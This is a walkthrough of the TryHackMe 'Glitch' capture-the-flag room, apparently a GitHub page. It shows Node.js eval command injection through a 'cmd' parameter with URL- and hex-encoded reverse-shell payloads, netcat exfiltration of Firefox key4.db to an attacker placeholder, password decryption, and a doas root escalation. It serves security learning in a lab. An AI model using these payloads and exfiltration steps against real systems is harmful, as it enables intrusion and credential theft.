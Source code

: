 # Glitch Walkthrough
<br/>

## Intro
Wlecome to the Glitch challenge, here is the link to the [room](https://tryhackme.com/room/glitch) on TryHackme.


"This is a simple challenge in which you need to exploit a vulnerable web application and root the machine. It is beginner oriented, some basic JavaScript knowledge would be helpful, but not mandatory. "

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's begin!

<br/>
<br/>

## The Challenge
Let's begin with an nmap scan to see if there are any open ports with services running:
```bash
nmap -sV -sC MACHINE_IP
```

The output shows us that port 80 serving an nginx HTTP server is open, let's visit it:
```
http://MACHINE_IP
```

The homepage contains only a background picture, we can check the page source code, inside we can notice a JavaScript block to fetch some access info from the `/api/access` API.

Let's interact with the API and see what we get:
```bash
curl http://MACHINE_IP/api/access
```

This result in a response containing a base64 encoded token: `{"token":"REDACTED"}`.
I wonder what is the original string that has been encoded:
```bash
echo "REDACTED" | base64 -d
```

--> REDACTED

Since we have an access token it means that there must be somewhere we can access.
Let' launch a directory scan of the website:
```bash
gobuster dir -u http://10.10.241.185/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

We get:
```
/img                  (Status: 301) [Size: 173] [--> /img/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/secret               (Status: 200) [Size: 724]
```

The last one looks interesting, so let's either add the token in our browser cookie or pass it as an header in a request in the terminal.
Anyway we lend on a new page with the picture of a rabbit with the word "Mad".

Let's do some more enumeration
```bash
gobuster dir -u http://10.10.241.185/api -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```

Let's hit the new API endpoint:
```bash
curl http://10.10.241.185/api/items -H "Cookie: token=this_is_not_real"
```

Response
```json
{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}
```

Let's see if we can interact with this endpoint using other HTTP methods:
```bash
curl -X OPTIONS http://10.10.241.185/api/items -H "Cookie: token=this_is_not_real"
```

We get `GET, HEAD, POST`, that's interesting, let's try `POST`:
```bash
curl -X POST http://10.10.241.185/api/items -H "Cookie: token=this_is_not_real"
```

This print us the message:
```json
{"message":"there_is_a_glitch_in_the_matrix"}
```

This shows that we are probably on the right path, maybe we can exploit this method uploading something.
I tried sending data JSON formatted or as a body string but got nothing, probably not the right method, maybe it uses an URL parameter.

Since we do not know which parameter, we can fuzz to find it:
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://10.10.241.185/api/items\?FUZZ\=123 -H "Cookie: token=this_is_not_real" -X POST
```

This give us the `cmd` one.
If we try to pass the `?cmd=whoami` we get the following error:
```bash
curl -X POST http://10.10.241.185/api/items\?cmd\=whoami -H "Cookie: token=this_is_not_real"
```

```
ReferenceError: whoami is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)
```

(NOTE: i am using *curl* here but you could use Burp Suite as well if you prefer a better graphical interface)

The error is probably caused by the fact that the web-app is using Node.js + PHP and do not recognize the `whoami` command, but this verbose error give us a hint on how to proceede.
We can use a function like `require()` to import the the `child_process` module, and then uses the `exec()` function to execute the  command we want, like this:
```bash
curl -X POST http://10.10.241.185/api/items\?cmd\=require\(%22child_process%22%29.exec\(%22ls%22%29 -H "Cookie: token=this_is_not_real"
```

This command gives us the response: `vulnerability_exploited [object Object]`.
It worked, now let's turn it in something useful, like injecting a payload that result in a reverse shell on our machine.

Firstly let's prepare a listener on our machine:
```bash
nc -lvnp 1234
```

Then we generate a simple bash reverse shell and we URL encode:
```bash
curl -X POST http://10.10.241.185/api/items\?cmd\=require\(%22child_process%22%29.exec\(%22bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/ATTACKER_IP/1234%20%3E%26%201%27%22%29 -H "Cookie: token=this_is_not_real"
```

This will gives us a shell in a couple of seconds.
Unfortunately the shell was broken this way so i have switched to the *mkfifo* one and URL encoded everything, this time worked perfectly
```bash
curl -X POST http://10.10.241.185/api/items?cmd=%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%22%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%39%2e%30%2e%31%30%30%20%31%32%33%34%20%3e%2f%74%6d%70%2f%66%22%29 -H "Cookie: token=this_is_not_real"
```

Once in the shell we can run `whoami`, we see we are "user", let's navigate to it's home directory and get the first flag:
```bash
cat /home/user/user.txt
```
--> REDACTED

<br/>

### Privilege Escalation
Now before proceding i decided to upgrade the shell to a fully interactive tty (follow my guide [here](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/main/Tips-%26-Resources/Reverse_Shell-Upgrade.md) if you don't know how to do it).

In `.firfox`
release
```bash
cd  ~/.firefox/b5w4643p.default-release
```

Get login.json and key4.db
on our system:
```bash
nc -nlvp 4444 > key4.db
```

on target:
```bash
nc -nv ATTCKER_IP 4444 < key4.db
```


This tool https://github.com/unode/firefox_decrypt or i used this https://github.com/lclevy/firepwd/blob/master/firepwd.py
```bash
git clone https://github.com/lclevy/firepwd.git
cd firepwd
```

Install required packages:
```python
pip3 install -r requirements.txt
```

Finally run it:
```bash
python3 firepwd.py
```
(ensure the 2 files are in the same directory as the script )

And we extracted the credentials of the v0id user:
```
b'v0id',b'love_the_void'
```

Let's change user now:
```bash
su v0id
```

From the previous scan we found a binary that has the SUID bit set
```bash
ls -l /usr/local/bin/doas
```

This command allow us to run commands as other users:
```bash
doas -u root cat /root/root.txt
```

Insert the v0id user password when prompted, and... here we have the root flag content:
--> REDACTED



<br/>
<br/>

Congratulations you have successfully exploited the web application and gained access to the system to escalate your privileges and get the root flag.

I hope you had fun doing the challenge and following along.

Catch you in the next CTF 😃 
